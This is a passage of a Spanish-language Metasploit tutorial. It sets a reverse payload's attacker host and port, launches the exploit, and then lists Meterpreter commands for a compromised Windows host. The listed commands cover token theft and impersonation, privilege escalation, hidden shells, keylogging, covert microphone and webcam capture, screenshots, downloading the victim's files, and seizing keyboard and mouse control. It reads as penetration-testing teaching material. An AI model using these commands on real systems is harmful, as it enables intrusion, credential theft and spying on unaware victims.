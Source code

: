 ```
set LHOST=[ip_atacante]
```
```
set RHOST=[puerto_atacante]
```
</b>
- <b>Paso 6</b>: Ya configurado el payload (cargado en el sistema objetivo, claro está) y el Meterpreter, se procede a realizar el comienzo de ejecución del ataque como tal desde la consola de Metasploit Framework:
<b>

```
exploit
```
</b>

> A partir del momento de ejecución de payload en el host objetivo, ya estará disponible el acceso al sistema remoto, momento en el cual podremos utilizar cualquiera de los siguientes comandos de Meterpreter:

- <b>sysinfo</b>: Muestra la información del sistema en el destino remoto.
- <b>ls</b>: Lista de archivos y carpetas en el objetivo.
- <b>use priv</b>: Carga el privilegio de la extensión para extender la librería de Meterpreter.
- <b>ps</b>: Muestra todos los procesos en ejecución y que cuentas están asociadas con cada proceso.
- <b>migrate PID</b>: Migra específicamente el proceso de ID (PID es el objetivo del proceso ID obtenido desde el comandos PS)
- <b>use incognito</b>: Cargar funciones de incógnito, acciones que se utilizan para robar fichas ysuplantación de una máquina de destino.
- <b>list_tokens -u:</b> Lista los token disponibles en el objetivo por el usuario.
- <b>list_tokens -g</b>: Lista los token disponibles en el objetivo por el grupo.
- <b>impersonate_token DOMAIN_NAME\\USERNAME</b>: Se hace pasar por un token disponible en el objetivo.
- <b>steal_token PID</b>: Roba los token disponibles para un determinado proceso y hacerse pasar por esa señal.
- <b>drop_token</b>: Deja de hacerse pasar porel token actual.
- <b>getsystem</b>: Intento de elevación de permisos de acceso a nivel de sistema a través de múltiples vectores de ataque.
- <b>shell</b>: Se abre un shell interactivo con todas las órdenes disponibles.
- <b>execute -f cmd.exe -i</b>: Ejecuta rcmd.exe e interactua con él.
- <b>execute -f cmd.exe -i -t</b>: Ejecuta cmd.exe con todas las órdenes disponibles.
- <b>execute -f cmd.exe -i -H -t</b>: Ejecutar cmd.exe con todas las órdenes disponibles, convirtiéndolo en un proceso oculto.
- <b>rev2self</b>: Vuelve al usuario original que se utilizó para poner en peligro el objetivo.
- <b>reg command</b>: Interactua, crea, elimina, consulta, setea... y mucho más en el registro del destino.
- <b>setdesktop number</b>: Cambia a una pantalla diferente en función de quién está conectado.
- <b>screenshot</b>: Se graba una captura de pantalla de la pantalla del host objetivo en el host atacante.
- <b>Record_mic</b>: Con este parámetro podremos activar el micrófono y grabar guardando en el host atacante en un archivo de audio indicado. Se ha de tener en cuenta que (por defecto) siempre grabará en segundos, a no ser que se indique con el parámetro d el número de segundos a grabar.
- <b>Webcam_chat</b>: Se establece comunicación con la víctima, es decir, realizar un video chat.
- <b>Webcam_list</b>: Proporciona una lista de las webcams que tenga el equipo.
- <b>Webcam_snap</b>: Se puede activar la webcam y realizar una foto de lo que se esté viendo en ese instante.
- <b>Webcam_stream</b>: Con esta instrucción se activa la webcam y se visualiza en tiempo real.
- <b>upload file</b>: Subir un archivo al objetivo.
- <b>download file</b>: Descargar los archivos desde el objetivo.
- <b>keyscan_start</b>: Detección de las pulsaciones de teclado en el destino remoto.
- <b>keyscan_dump</b>: Volcado de las pulsaciones de teclas del host capturado.
- <b>keyscan_stop</b>: Dejar de detectar las pulsaciones de teclado en el destino remoto.
- <b>getprivs</b>: Obtener tantos privilegios como sea posible en el objetivo, siempre teniendo en cuenta que es posible que tengamos el máximo de privilegios.
- <b>uictl enable keyboard/mouse</b>: Toma el control del teclado y/o ratón.